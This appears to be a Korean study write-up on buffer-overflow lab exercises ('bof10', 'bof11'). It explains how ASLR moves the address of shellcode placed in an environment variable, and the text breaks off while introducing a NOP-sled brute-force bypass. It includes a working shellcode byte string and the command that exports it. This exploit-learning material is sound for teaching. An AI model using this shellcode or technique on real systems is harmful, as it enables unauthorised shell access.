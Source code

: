 # ASLR 우회 

지금까지 `bof1` 부터 `bof9` 까지 풀어봤는데 모두 다 ASLR 이 비활성화된 환경이었다. 이제부터는 ASLR 이 활성화된 시스템에서 `BOF` 취약점으로 익스플로잇을 시도해보자. 

## bof10 bof11 풀어보기 

- `bof10` 는 `ASLR` 이 걸린 상황에서의 `bof8` 과 같은 문제고 `bof11` 은 `ASLR` 이 걸린 상황에서늬 `bof9` 문제와 같다.

- `bof10` 는 `bof8` 처럼 스택에 실행권한이 있어서(NX 비트가 걸려있지 않음) 환경변수에 쉘코드를 삽입하여 익스플로잇을 시도할 수 있다. 하지만 `bof11` 는 `bof9` 처럼 스택에 실행권한이 제거되서 `RTL` 기법을 시도해야 한다. 

# bof10 설명

1. `bof10` 을 실행시키는 환경은 NX 비트가 스택에 활성화 되어있지 않은 대신 **ASLR** 이 활성화 되어있다. 그리고 `32` 비트 용 프로그램(`x86`) 으로 컴파일 되어 있어서 주소값으로 `4` 바이트를 사용한다. 

2. `buf` 의 사이즈가 `8` 밖에 되지 않기 때문에 일단 쉘코드를 환경변수에 삽입해야 한다.

    ```shell
    export SHELLCODE=`python -c "print '\x90'*10 + '\xeb\x12\x31\xc9\x5e\x56\x5f\xb1\x15\x8a\x06\xfe\xc8\x88\x06\x46\xe2\xf7\xff\xe7\xe8\xe9\xff\xff\xff\x32\xc1\x32\xca\x52\x69\x30\x74\x69\x01\x69\x30\x63\x6a\x6f\x8a\xe4\xb1\x0c\xce\x81'"`
    ```
    
3. 그런데 ASLR 이 활성화되어 있기 때문에 `SHELLCODE` 환경변수의 주소값이 계속 변한다. 

    ```shell
    $ ./bof10 chansol
    Hello chansol[0xffa8b5e8]!
    (env:SHELLCODE -> 0xffa8c834)
    $ ./bof10 chansol
    Hello chansol[0xff7fc9c8]!
    (env:SHELLCODE -> 0xff7fe834)
    $ ./bof10 chansol
    Hello chansol[0xffa28a98]!
    (env:SHELLCODE -> 0xffa29834)
    ```

4. 그래서 쉘 코드를 `SHELLCODE` 환경변수에 저장해놓더라도 쉘 코드로 점프하기가 쉽지 않다. 지금 이 시점에서 `NOP` 코드를 `10` 바이트밖에 넣지 않았기 때문에 점프되면 쉘 코드를 실행시킬 수 있는 주소의 범위가 `NOP` 코드 `10` 바이트와 쉘 코드가 정확하게 시작되는 주소값을 합해서 `11` 바이트이다. 

5. 예를 들어서 `SHELLCODE` 환경변수가 `0xff89d834` (`32` 비트용 프로그램이라 `4` 바이트 주소 사용) 라는 주소값에 저장되었다고 하면 `0xff89d834` 부터 `0xff89d83e` 까지 `NOP` 코드가 저장되어 있고 `0xff89d83f` 부터 쉘코드가 시작된다. 

6. `SHELLCODE` 환경변수가 `0x00000000` 부터 `0xffffffff` 까지 위치할 수 있다고 생각한다면, 쉘코드가 실행될 확률은 `(11 / 0xffffffff) * 100` 이라고 할 수 있다. 이 값은 **0.000000256%** 정도의 확률이다.

## brute-force 로 ASLR 우회 

7. 아니, 그러면 `NOP` 를 많이 넣으면 넣을수록 이 쉘코드가 실행될 확률이 높아지는 게 아닐까. 

    - `NOP` 코드 **1000** 바이트 삽입 시 쉘코드가 실행될 확률 
